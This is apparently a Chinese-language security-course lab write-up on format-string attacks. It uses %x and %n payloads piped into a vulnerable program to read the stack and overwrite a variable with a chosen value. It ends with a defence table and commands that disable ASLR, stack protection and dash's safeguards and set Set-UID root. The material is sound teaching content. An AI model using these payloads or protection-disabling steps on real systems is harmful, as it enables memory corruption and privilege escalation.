```

## Task 5.3 — 修改 secret[1] 的值

### 目标
使用 `%n` 格式符将 `secret[1]` 修改为任意值。

### %n 的工作原理
```c
int count;
printf("Hello%n", &count);
// count = 5（printf 已输出的字符数）
```
`%n` 将已输出字符数写入它对应的参数地址（从栈上取地址）。

### 策略
与 Task 5.2 相同：
1. 将 `secret[1]` 的地址作为 `int_input` 输入（使其在栈上）
2. 格式字符串用若干 `%x` 消费掉之前的栈内容
3. 最后用 `%n` 写入字符数到 `secret[1]` 的地址

### 操作步骤
```bash
# 使用 secret[1] 地址作为整数输入，%n 覆盖其内容
echo -e "1448452516\n%9\$n" | ./vul_prog
```

> 

### 注意
- `%n` 写入的值是此时已输出的**总字节数**

## Task 5.4 — 将 secret[1] 修改为指定值 0x50（十进制 80）

### 目标
利用 %n 将 secret[1] 修改为 80（0x50）。

### 原理
1. 将 secret[1] 的地址（0x5655a1a4）作为整数输入，使其成为 printf 的第 9 个参数。
2. 构造格式字符串，使 printf 输出总字符数恰好为 80，然后通过 %n 将该数值写入第 9 个参数指向的地址。


### 操作步骤

使用 8 个 %x 消耗前 8 个参数，每个 %x 输出宽度固定为 8 位（右对齐补空格），并加上一个点分隔符，这样前 7 个 %x. 输出 7×9 = 63 个字符。第 8 个 %x 后面不加点，但需要使其输出 17 个字符，以达到总计 80 个字符。

格式字符串为：

```
%8x.%8x.%8x.%8x.%8x.%8x.%8x.%17x%n
```

- 前 7 个 %8x.：每个输出 9 个字符（8 个数字 + 点），共 63 字符。  
- 第 8 个 %17x：输出 17 个字符（16 个空格 + 1 个数字，或右对齐补空格），共 17 字符。  
- 总计 80 字符。  
- %n 写入该总数到第 9 个参数（即 secret[1] 的地址）。

```bash
# secret[1] 地址的十进制 = 1448452516
echo -e "1448452516\n%8x.%8x.%8x.%8x.%8x.%8x.%8x.%17x%n" | ./vul_prog
```

> 

### 预期最终输出
```
After attack, secret[1] = 0x50
```

### 总结：格式化字符串攻击技术对比

| 任务 | 格式符 | 效果 |
|------|--------|------|
| 5.1 崩溃 | `%s%s%s...` | 读取无效内存地址，触发段错误 |
| 5.2 读取 | `%x...%s` | 跳过栈内容，读取目标地址的字符串值 |
| 5.3 修改 | `%x...%n` | 写入已输出字节数到目标地址 |
| 5.4 精确修改 | `%Nx...%n` | 精确控制输出字节数，写入指定值 |

---
# 总结与防护建议

## 各攻击的根本原因与防护

| 任务 | 漏洞类型 | 根本原因 | 防护方案 |
|------|---------|---------|----------|
| Task 2 | 环境变量滥用 | Set-UID 程序信任用户环境变量 | 使用绝对路径；清理危险环境变量 |
| Task 3 | 缓冲区溢出 | `strcpy()` 不检查边界 | 使用安全函数（`strncpy`）；启用 ASLR + StackGuard + NX |
| Task 4 | Return-to-libc | NX 只防栈执行，不防重用已有代码 | ASLR + StackGuard 组合防护；使用 CFI |
| Task 5 | 格式字符串 | `printf(user_input)` 直接使用用户输入 | 始终使用 `printf("%s", user_input)` |

## 防护层次（深度防御）

```
代码级    → 安全编程习惯（边界检查、格式字符串固定、最小权限）
编译器级  → StackGuard（canary）、PIE（位置无关可执行）
OS 级     → ASLR（地址随机化）、NX/DEP（不可执行内存）
硬件级    → Intel CET（控制流强制技术）
```

## 快速参考：关键命令

```bash
# 关闭/开启 ASLR
sudo sysctl -w kernel.randomize_va_space=0   # 关闭
sudo sysctl -w kernel.randomize_va_space=2   # 开启

# 32 位编译选项
gcc -m32 -z execstack -fno-stack-protector   # 最不安全（实验用）
gcc -m32 -z noexecstack -fno-stack-protector  # 禁止栈执行
gcc -m32 -z noexecstack                       # 启用所有保护

# 设置 Set-UID root
sudo chown root <program> && sudo chmod 4755 <program>

# /bin/sh 切换
sudo ln -sf /bin/zsh /bin/sh   # 用 zsh（无防护）
sudo ln -sf /bin/dash /bin/sh  # 恢复 dash（有防护）
```